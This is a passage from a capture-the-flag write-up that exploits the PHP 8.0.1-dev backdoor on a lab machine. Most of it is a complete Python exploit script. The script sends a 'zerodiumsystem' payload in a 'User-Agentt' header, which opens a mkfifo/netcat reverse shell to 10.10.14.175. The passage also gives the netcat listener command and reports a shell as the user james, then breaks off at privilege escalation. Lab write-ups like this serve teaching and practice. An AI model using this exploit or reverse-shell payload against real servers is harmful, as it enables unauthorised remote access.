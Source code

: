 To weaponize this exploit we will create a `Python3` script. This script will let us send a reverse shell from the target machine to our machine:

```python
#!/usr/bin/python3
#coding: utf-8


# PHP 8.0.1-dev Backdoor
# Author: Gaizka Martin (a.k.a g2jz)


import requests
import sys


s = requests.Session() 


def main():
	r = s.get(sys.argv[1], headers={"User-Agentt":"zerodiumsystem(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.175 443 >/tmp/f\");"})


if __name__ == "__main__":
	if(len(sys.argv)==2):
		main()
	else:
		print("Use: " + sys.argv[0] + " <http://test>")
```
{: .file="exploits/php-8.0.1-dev_backdoor.py"}

Before running the exploit, we will be listening for the reverse shell with `netcat` in our machine:

```bash
nc -nlvp 443
```

After executing the exploit:

![Desktop View](user2.png){: w="700" h="400" }
_Reverse Shell_

We can see how we have got a shell as the `james` user. We will proceed to visualize the `flag.txt` in the `/home/james`{: .filepath} directory.

## Root Shell
---

### Enumeration

Now we have a shell as the `james` user, so we will start to enumerate the target machine in order to escalate privileges.
